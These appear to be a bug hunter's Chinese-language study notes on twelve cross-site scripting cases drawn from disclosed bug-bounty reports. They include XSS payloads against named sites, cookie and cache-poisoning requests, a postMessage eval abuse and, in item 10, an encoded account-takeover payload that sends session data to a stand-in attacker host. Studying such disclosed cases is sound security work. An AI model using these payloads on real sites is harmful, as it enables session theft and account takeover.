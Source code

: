 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# 10.xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方

# 11.服务器错误处理cookie导致xss
https://wx.zsxq.com/columns/48884815425228

标题是：通过观察响应值以及**cookie走私**来实现的xss
本来cookie中的字段以分号相隔为不同的cookie字段，但是这里服务器把空格也当成了分隔符，当攻击者用空格进行构造cookie的时候，服务器没有进行安全处理直接将cookie字段反射到页面造成xss
后续还有账号接管操作还没分析
思考：新的漏洞点，关注cookie等可能的header头也会有xss反射点

# 12.路径重定向的xss
https://hackerone.com/reports/260744



```
https://dev.twitter.com/https:/%5cblackfan.ru/
后面https那个路径会进行重定向到https:/%5cblackfan.ru/
```

https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
以下是http响应
```
HTTP/1.1 302 Found
connection: close
...
location: //x:1/://dev.twitter.com/javascript:alert(document.cookie)
...


<p>You should be redirected automatically to target URL: <a href="javascript:alert(document.cookie)">javascript:alert(document.cookie)</a>.  If not click the link.
```
思考：提示重定向的页面也可以造成xss